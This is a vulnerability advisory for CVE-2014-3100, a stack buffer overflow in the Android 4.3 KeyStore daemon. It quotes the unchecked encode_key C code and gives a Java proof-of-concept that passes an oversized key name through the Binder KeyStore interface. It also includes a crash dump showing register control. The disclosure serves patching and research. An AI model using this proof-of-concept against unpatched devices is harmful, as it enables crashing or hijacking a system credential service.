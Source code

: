 ```yaml
---
layout: vuln
credit: 
    - roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2014-06-30' 
alephid: ALEPH-2014004
cve: CVE-2014-3100
date: '2014-06-30'
title: 'Android KeyStore Stack Buffer Overflow'
severity: high
product:
    - Android
    
vulnerable:
    - 4.3
    
mitigation: 'Apply patches'

references:
    - src: Advisory
      url: https://www.slideshare.net/ibmsecurity/android-keystorestackbufferoverflow
    - src: USENIX WOOT '14
      url: https://www.usenix.org/system/files/conference/woot14/woot14-kaplan.pdf
---
```

A stack buffer is created by the KeyStore::getKeyForName method.
```c
ResponseCode getKeyForName (Blob *keyBlob , const android :: String8 & keyName , const uid_t uid , const BlobType type )
{
    char filename [NAME_MAX];
    encode_key_for_uid (filename, uid, keyName);
    [...]
}
```

This function has several callers which are accessible by external applications using the Binder interface
(e.g. int32_t android::KeyStoreProxy::get(const String16 &name, uint8_t \*\*item, size_t \*itemLength)). Therefore the keyName variable can be controllable with an arbitrary size by a malicious application. As it can be seen, the encode_key routine which is called by encode_key_for_uid can overflow the filename buffer since bounds checking is absent:
```c
static int encode_key_for_uid (char *out, uid_t uid, 
                              const android::String8 &keyName)
{
    int n = snprintf(out, NAME_MAX , "%u_", uid);
    out += n;
    return n + encode_key (out, keyName);
}

static int encode_key (char *out, const android::String8 &keyName)
{
    const uint8_t *in = reinterpret_cast < const uint8_t *>( keyName . string ());
    size_t length = keyName . length ();
    for (int i = length ; i > 0; --i, ++in, ++out) {
        if (*in < ’0’ || *in > ’~’) {
            *out = ’+’ + (*in >> 6);
            *++out = ’0’ + (*in & 0x3F);
            ++length;
        }   else {
                *out = *in;
            }
    }
    *out = ’\0’;
    return length ;
}
```
## Proof-of-Concept ##

Should be executed by an Android app:

```java
Class keystore = Class.forName("android.security.KeyStore");
Method mGetInstance = keystore.getMethod("getInstance");
Method mGet = keystore.getMethod("get", String.class);
Object instance = mGetInstance.invoke(null);
mGet.invoke (instance,
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
             "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+
              "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa");
```

## Crash dump ##
```terminal
F/ libc ( 2091): Fatal signal 11 ( SIGSEGV ) at 0 x61616155 ( code =1) , thread 2091 ( keystore )
I/ DEBUG ( 949): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/ DEBUG ( 949): Build fingerprint : ’ generic_x86 / sdk_x86 / generic_x86 :4.3/ JSS15
J/ eng . android - build .20130801.155736: eng / test - keys ’
I/ DEBUG ( 949): Revision : ’0’
I/ DEBUG ( 949): pid : 2091 , tid : 2091 , name : keystore >>> / system / bin / keystore <<<
I/ DEBUG ( 949): signal 11 ( SIGSEGV ), code 1 ( SEGV_MAPERR ) , fault addr 61616155
I/ DEBUG ( 949): eax 61616161 ebx b7779e94 ecx bff85ed0 edx b777a030
I/ DEBUG ( 949): esi b82a78a0 edi 000003 e8
I/ DEBUG ( 949): xcs 00000073 xds 0000007 b xes 0000007 b xfs 00000000 xss 0000007 b
I/ DEBUG ( 949): eip b7774937 ebp 61616161 esp bff85d20 flags 00010202
I/ DEBUG ( 949):
I/ DEBUG ( 949): backtrace :
I/ DEBUG ( 949): #00 pc 0000 c937 / system / bin / keystore ( KeyStore :: getKeyForName ( Blob * ,android :: String8 const & , unsigned int , BlobType )+695)
I/ DEBUG ( 949):
I/ DEBUG ( 949): stack :
I/ DEBUG ( 949): bff85ce0 00000000
[...]
I/ DEBUG ( 949): bff85d48 00000007
I/ DEBUG ( 949): bff85d4c bff85ed0 [ stack ]
I/ DEBUG ( 949): bff85d50 bff8e1bc [ stack ]
I/ DEBUG ( 949): bff85d54 b77765a3 / system / bin / keystore
I/ DEBUG ( 949): bff85d58 b7776419 / system / bin / keystore
I/ DEBUG ( 949): bff85d5c bff85ed4 [ stack ]
I/ DEBUG ( 949): ........ ........
I/ DEBUG ( 949):
I/ DEBUG ( 949): memory map around fault addr 61616155:
I/ DEBUG ( 949): ( no map below )
I/ DEBUG ( 949): ( no map for address )
I/ DEBUG ( 949): b72ba000 - b73b8000 r -- / dev / binder
```